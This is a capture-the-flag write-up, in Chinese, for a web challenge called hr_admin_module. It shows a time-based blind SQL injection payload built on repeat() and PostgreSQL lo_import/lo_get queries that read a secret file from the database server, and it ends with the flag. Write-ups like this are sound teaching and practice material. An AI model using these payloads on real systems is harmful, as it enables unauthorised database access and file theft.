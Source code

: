 # hr_admin_module

這題是這場我花最多時間的 web 題，不過還蠻好玩的，發現很多新招XD

首先是 SQL Injection:

從 `user_search` 參數可以發現 SQL Injection 特徵

當我輸入不合 SQL 語法時，會噴 Warning ，但他是第二次 Request 才會顯示

e.g. 

- 有warning: `admin'` or `admin'-` ...

- 沒warning: `admin'--` or `admin''` or `admin' and 1=2 --` ...

而且這題似乎擋了很多東西，`pg_sleep`無法用，`dblink`簡單踹一下似乎也沒dns request (但賽後才知道好像其實可以?)

後來就發現 `repeat()` 可以讓 Server 卡住 

e.g. `'and 1=2 union select NULL, (select case when 1=1 then (select repeat('a', 10000000)) else NULL end)--`

所以我們就有了 Time-based 的 SQL Injection

先撈一些基本資訊:

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
current_query: SELECT * FROM searches WHERE search = 'YOUR_INPUT'
```

但撈了一整天，DB 裡面沒啥可用的東西，`pg_read_file` , `pg_ls_dir` 等函數也都不能用

可是 `/var/lib/postgresql/data/secret` 這個 path 很明顯是 default data directory

所以應該還是有辦法能讀檔

猜測是要找到某個沒被限制的函數去讀檔

找了無數個小時，還翻了postgres src

最後我在本機 local 端，試著找所有包含`read`的function: 

`SELECT proname FROM pg_proc WHERE proname like '%read%';`

=>

```
 loread
 pg_stat_get_db_blk_read_time
 pg_read_file_old
 pg_read_file
 pg_read_file
 pg_read_file
 pg_read_binary_file
 pg_read_binary_file
 pg_read_binary_file
```

最後找到 `lo_import`, `lo_read`, `lo_open`, ... 這系列的 function

https://www.postgresql.org/docs/11/lo-funcs.html

`lo_import` 可以把檔案載入進 Object 中

遠端測試: `lo_import('/var/lib/postgresql/data/secret')`

有回傳一個 OID 回來，所以代表 flag 有成功載入進去

接著用 `lo_get(OID)`，把這個 OID 對應的 Object 讀出來就行

```
select cast(lo_import('/var/lib/postgresql/data/secret') as text)
=> 18440

select cast(lo_get(18440) as text)
=> \x66627b4040646e....
```


`fb{@@dns_3xfil_f0r_the_w1n!!@@}`

(it looks like this is unintended solution :p)

